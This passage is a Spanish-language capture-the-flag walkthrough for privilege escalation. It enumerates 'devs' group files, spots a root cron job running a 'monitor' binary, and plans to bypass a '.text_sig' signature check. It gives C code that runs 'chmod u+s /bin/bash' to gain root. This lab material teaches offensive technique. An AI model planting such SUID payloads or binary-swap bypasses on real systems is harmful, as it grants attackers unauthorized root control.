 ### eric

El usuario no tiene permisos sudo pero vemos que pertenece al grupo `devs` 

<img width="1920" height="108" alt="image" src="https://github.com/user-attachments/assets/cb12ec1a-11aa-43a9-a4b3-e9776192a934" />

asi que hacemos una busqueda en el sistema de archivos bajo dicho grupo

```bash
find / -group devs -type f 2>/dev/null
```
```bash
/opt/AV/periodic-checks/monitor
/opt/AV/periodic-checks/status.log
```

conseguimos 2 archivos que son propiedad de root pero que estan bajo el grupo `devs`


<img width="1920" height="225" alt="image" src="https://github.com/user-attachments/assets/1cdce9d3-6524-4b5f-8728-94df0e3dd4cc" />

el archivo `monitor` es un binario y como es obvio, el otro un registro de log.... si vemos los procesos que corren veremos `cron` lo que nos podria decir que existe una tarea programada

<img width="1920" height="225" alt="image" src="https://github.com/user-attachments/assets/ad3a0724-2150-43ec-8ec7-4e1cb8e5ae91" />

asi que vamos a ver en tiempo real los procesos y vamos a filtrar por `monitor` a ver si en algun momento se ejecuta el binairo que hemos conseguido

```bash
watch -n 0.1 "ps auxf |grep monitor |grep -v grep" # vemos los procesos en tiempo real
```

<img width="1920" height="198" alt="image" src="https://github.com/user-attachments/assets/a2f6571f-d315-4cee-b324-1c9a32d04f21" />

esta ejecutando el binario a traves de un script bash, intente cambiar el binairo por otro pero no lo ejecuta asi que lo que hare sera copiar la seccion `.text_sig` del binario original a mi binario malicioso a ver si es suficiente para saltar la validacion que este realizando por detras...

>>> .text_sig es una sección ELF arbitraria añadida manualmente para guardar una firma digital del binario. El sistema operativo o el linker no la interpreta automáticamente. Solo tiene utilidad si una herramienta o programa personalizado la usa para verificar la integridad o autenticidad del binario
 
binario malicioso `monitor2`
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    // Ejecuta el comando que nos dara la escalada a root
    int result = system("chmod u+s /bin/bash");

    if (result == -1) {
        perror("Error al ejecutar el comando ls");
        return 1;
    }

    return 0;
}

```
